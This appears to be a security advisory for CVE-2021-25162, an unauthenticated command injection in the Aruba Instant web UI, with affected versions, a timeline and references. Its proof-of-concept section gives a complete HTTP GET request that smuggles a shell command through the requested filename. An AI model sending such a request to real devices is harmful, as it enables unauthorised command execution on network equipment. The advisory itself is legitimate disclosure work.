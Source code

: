```yaml
---
layout: vuln
credit: 
    - Gr33nh4t
    - waveburst
timeline:
    - type: 'report'
      date: '2020-11-22'
    - type: 'cve-assign'
      date: '2021-02-03'
    - type: 'patch'
      date: '2021-03-09'
    - type: 'release'
      date: '2021-03-09'
product:
     - ' - Aruba Instant'

vulnerable:
     - ' - Aruba Instant 6.4.x: 6.4.4.8-4.2.4.17 and below'
     - ' - Aruba Instant 6.5.x: 6.5.4.18 and below'
     - ' - Aruba Instant 8.3.x: 8.3.0.14 and below'
     - ' - Aruba Instant 8.5.x: 8.5.0.11 and below'
     - ' - Aruba Instant 8.6.x: 8.6.0.7 and below'
     - ' - Aruba Instant 8.7.x: 8.7.1.1 and below'


severity: 'high'
alephid: ALEPH-2021010
cve: CVE-2021-25162
date: '2021-03-09'
references:
    - src: 'Aruba Instant (IAP) Multiple Vulnerabilities'
      url: 'https://www.arubanetworks.com/assets/alert/ARUBA-PSA-2021-007.txt'
  
title: 'Unauthenticated Command Injection via Web UI'

---
```


An unauthenticated attacker can execute arbitrary commands on Aruba Instant devices, to be able to exploit this vulnerability the attacker has to put a file with a command in the file name in the HTTP directory.

All the files in the webserver directory are compressed with gzip compression. If a client requests a file without accepting gzip then the webserver will do the uncompression for him and execute gunzip.

The filename parameter is unsanitized and can be used to execute arbitrary commands. 
An attacker can create a file with @CVE-2021-25159 and execute commands.

## POC:
A simple GET request can trigger this vulnerability after using @CVE-2021-25159 and @CVE-2021-25156.


```
GET /AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA';%20ps%20#aaaaaaaaaaaaaaaaaaa HTTP/1.1
Host: IP:4343
Connection: close
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.125 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Language: en-US,en;q=0.9
```